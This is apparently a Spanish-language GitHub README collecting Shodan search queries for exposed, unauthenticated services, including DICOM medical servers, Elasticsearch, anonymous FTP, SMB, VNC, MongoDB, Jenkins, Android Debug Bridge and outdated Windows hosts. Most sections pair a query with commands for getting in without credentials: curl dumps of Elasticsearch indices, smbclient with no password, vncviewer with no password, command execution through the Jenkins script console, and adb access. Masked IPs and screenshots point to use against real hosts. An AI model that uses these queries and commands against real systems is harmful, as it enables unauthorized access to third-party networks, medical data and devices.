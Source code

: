 # Dorks Shodan 2023

Recopilación de Querys de shodan con scripts personalizados :)

# DICOM 
El estándar DICOM (Digital Imaging and Communications in Medicine) es un estándar utilizado en la industria médica para la gestión, almacenamiento y transmisión de imágenes médicas, como radiografías, tomografías computarizadas (TC), imágenes de resonancia magnética (IRM), entre otras.

```sh
"DICOM Server Response" port:104
```
```sh
python3 Dicom.py
```

![image](https://github.com/HernanRodriguez1/Exploits-Shodan/assets/66162160/29f923e0-fbde-4526-a199-fbf71cb5319f)

# Elasticsearch
Elasticsearch es un motor de búsqueda y análisis distribuido, de código abierto, basado en Lucene. Se utiliza para indexar, buscar y analizar grandes volúmenes de datos en tiempo real. Está diseñado para manejar datos no estructurados o semiestructurados y es especialmente útil para casos de uso en los que se requiere búsqueda y análisis de texto, logística, monitoreo y análisis de registros, y más

```sh
port:"9200" elastic: "Total Size:"
```
```sh
curl -X GET "http://192.x.x.153:9200/_cat/indices?v"
curl -X GET "http://192.x.x.153:9200/.monitoring-beats-7-2023.08.30"
curl -X GET "http://192.x.x.153:9200/_search?pretty=true"
```

```sh
python3 elastic.py -t 192.x.x.153
```
![image](https://github.com/HernanRodriguez1/Exploits-Shodan/assets/66162160/25dadba2-91d2-4bc6-9a91-6c238120d557)


## Access FTP Anonymous
El acceso FTP anónimo es una forma de conectarse a un servidor FTP sin proporcionar credenciales de autenticación específicas.

```sh
"220" "230 Login successful." port:21
230 'anonymous@' login ok 
"Anonymous+access+allowed" port:"21"
```

```sh
shodan search :"220" "230 Login successful." port:21 --fields ip_str --separator " " | awk '{print $1}' | cat > ips.txt
```
```sh
python3 ftp.py -l ips.txt
```
![image](https://github.com/HernanRodriguez1/Exploits-Shodan/assets/66162160/59945aef-9d89-4c2d-bbc6-a876ad1ed68d)


# Authentication Disabled SMB
La autenticación SMB (Server Message Block) sin credenciales, también conocida como acceso SMB anónimo, permite a los usuarios acceder a recursos compartidos en una red sin proporcionar nombres de usuario ni contraseñas. Esto puede ser útil para acceder a carpetas compartidas que se han configurado para permitir el acceso anónimo.

```sh
"Authentication: disabled" port:445 product:"Samba" 
```
```sh
smbclient -L //200.x.x.29/ -N  
smbclient //200.x.x.29/info
```
![image](https://github.com/HernanRodriguez1/Exploits-Shodan/assets/66162160/da427f4b-0f7b-4f2b-9b0e-326da7e78420)

## Access authentication disabled VNC
Esto significa que el servidor VNC está configurado para permitir conexiones sin requerir autenticación.

```sh
"authentication disabled" port:5900,5901
```
```sh
vncviewer -passwd none 91.x.x.238
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/9e610141-1ccf-4388-92c5-c824704ca9c0)


## Access authentication disabled 

```sh
"MongoDB Server Information" port:27017 -authentication
"Set-Cookie: mongo-express=" "200 OK"
```
```sh
mongo --host 139.x.x.5
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/69a9b077-8f19-4c3b-8032-0b6387c93c8b)

## Access Jenkins

```sh
http.component:"jenkins"
title:"Dashboard [Jenkins]"
html:"Dashboard Jenkins"
```
```sh
add /script 
print "uname -a".execute().text
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/1c8441b6-33ce-46a9-94b4-ad574866a63c)

## Access devices ADB

```sh
shodan search :Android Debug Bridge port:5555 "Name:" --fields ip_str --separator " " | awk '{print $1}' | cat > ips.txt 
 ```
```sh
python3 adb.py   
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/da53ed42-de05-4842-9662-5ee57eaf6269)

```sh
adb devices
```
![image](https://github.com/HernanRodriguez1/Dorks-Shodan-2023/assets/66162160/9e05b583-b684-4b27-b42d-c10b5312d788)



## OS Windows Obsolete

```sh
os:"Windows 5.0" – Windows 2000; support end 2010.
os:"Windows 5.1" – Windows XP; support end 2014.
os:"Windows 2003" – Windows Server 2003; support end 2015.
os:"Windows Vista"– Windows Vista; support end 2017.
os:"Windows 2008" – Windows Server 2008; support end 2020.
os:"Windows 7" – Windows 7; support end 2020.
os:"Windows 8" – Windows 8; support end 2016.
os:"Windows 2011" – Windows Home Server 2011; support end 2016.
os:"Windows 8.1" – Windows 8.1; support end 2018.
os:"Windows 2012" – Windows Server 2012; support end 2018.
```



